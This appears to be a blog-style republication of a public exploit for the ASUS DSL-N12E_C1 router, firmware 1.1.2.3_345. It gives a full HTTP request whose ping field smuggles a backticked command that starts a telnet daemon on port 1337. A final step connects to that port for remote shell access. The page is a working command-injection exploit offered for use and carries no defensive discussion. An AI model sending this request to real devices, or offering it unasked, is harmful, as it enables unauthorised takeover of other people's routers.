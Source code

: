 ```yaml
---
layout: post
title: "ASUS DSL-N12E_C1 1.1.2.3_345 - Remote Command Execution"
comments: true
description: "ASUS DSL-N12E_C1 1.1.2.3_345 - Remote Command Execution"
keywords: "asus, iot, dsl-n12e, rce, command injection"
---
```


Exploit Title: ASUS DSL-N12E_C1 1.1.2.3_345 - Remote Command Execution<br>
Date: 2018-08-02<br>
Exploit Author: Fakhri Zulkifli (@d0lph1n98)<br>
Vendor Homepage: https://www.asus.com/<br>
Software Link: https://www.asus.com/Networking/DSLN12E_C1/HelpDesk_BIOS/<br>
Version: 1.1.2.3_345<br>
Tested on: 1.1.2.3_345<br>

```
GET /Main_Analysis_Content.asp?current_page=Main_Analysis_Content.asp&next_page=Main_Analysis_Content.asp&next_host=www.target.com&group_id=&modified=0&action_mode=+Refresh+&action_script=&action_wait=&first_time=&applyFlag=1&preferred_lang=EN&firmver=1.1.2.3_345-g987b580&cmdMethod=ping&destIP=%60utelnetd+-p+1337%60&pingCNT=5 HTTP/1.1
Host: www.target.com
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/67.0.3396.99 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://www.target.com/Main_Analysis_Content.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

To connect
1. telnet www.target.com 1337
